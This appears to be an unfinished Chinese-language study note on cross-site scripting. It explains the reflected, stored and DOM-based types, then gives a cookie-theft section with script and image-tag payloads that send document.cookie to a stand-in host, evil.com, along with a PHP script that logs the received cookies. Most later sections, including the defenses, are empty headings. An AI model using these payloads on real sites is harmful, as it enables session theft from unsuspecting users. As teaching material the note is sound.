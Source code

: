 ## 简介

XSS攻击，全称Cross Site Script攻击。通常是指黑客通过“HTML”注入篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。一般分为**反射型XSS**、**存储型XSS**和**基于DOM的XSS**。

1. **反射型XSS**：通常由黑客构造一个恶意的url，通过诱使用户点击实现攻击目的。
2. **存储型XSS**：黑客将恶意代码以博客或者其他形式存储到服务器上，每当其他用户浏览该内容时就会受到攻击。
3. **基于DOM的XSS**：这种XSS并不以“数据是否保存在服务器上”作为分类标准。从效果上，他是一种反射型XSS，但由于其独特的形成原因而单独列出。前端页面提供了用户修改DOM节点的功能，而用户通过输入攻击Payload达到插入脚本的目的，从而可以进一步实施更深入的攻击。

## XSS利用姿势

#### 1. Cookie窃取

可以使用下面的姿势将受害者cookie以GET的姿势发送到服务器上：

```js
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

远程服务器可以由配套接收cookie的服务器文件：

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

#### 2. 会话劫持



#### 3. 钓鱼

#### 4. 挂马

#### 5. DOS或者DDOS

#### 6. XSS蠕虫

## 攻击姿势

## XSS防御

### 1. HttpOnly

### 2. 输入检查

### 3. 输出检查

> 参考：
>
> 1. 《白帽子讲Web安全》
> 2. [CTF-wiki: XSS cross-site scripting attack](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)



